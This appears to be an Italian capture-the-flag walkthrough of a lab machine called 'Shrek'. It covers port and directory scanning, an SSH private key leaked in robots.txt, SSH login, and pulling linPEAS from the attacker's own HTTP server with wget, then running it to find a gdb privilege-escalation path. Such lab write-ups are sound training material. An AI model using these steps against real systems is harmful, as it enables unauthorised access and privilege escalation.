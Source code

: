 # SHREK

iniziamo con uno scan della macchina per torvare le porte apere e i servizi che ci girano sopra

```bash
nmap shrek.thm -sV -sC 
```

troviamo varie porte aperte tra cui la porta 80 simbolo di una web application

```bash
http://shrek.thm/
```

nulla di interessante andiamo a vedere che cartelle contiene
```bash
gobuster dir -u http://shrek.thm/ -w /usr/share/wordlist/dirbuster/common.txt
```

abbiamo trovato robots.txt andiamo a vedere cosa contiene

```bash
http://shrek.thm/robots.txt
```

ecco un id_rsa copiamola e salviamola sulla nostra macchina con il nome di id_rsa

```bash
nano id_rsa
chmod 600 id_rsa
```

entriamo in shh

## SSH

```bash
ssh -i id_rsa shrek@shrek.thm
```
## PRIVILEGE ESCALATION

portiamo linPEAS.sh sulla macchina (scaricatevelo prima!!)
sulla nostra macchina apriamo un http dove si trova lo script
```bash
python -m http.server 80
```

successivamente andiamo a prendere il file
```bash
wget http://nostroip/linPEAS.sh
```

diamogli i giusti permessi 
```bash
chmod +x linPEAS.sh
./linPEAS.sh
```

troviamo un vulnerabilità a livello gdb e tramite GTFO.BINS vedete che comando eseguire per il privesc
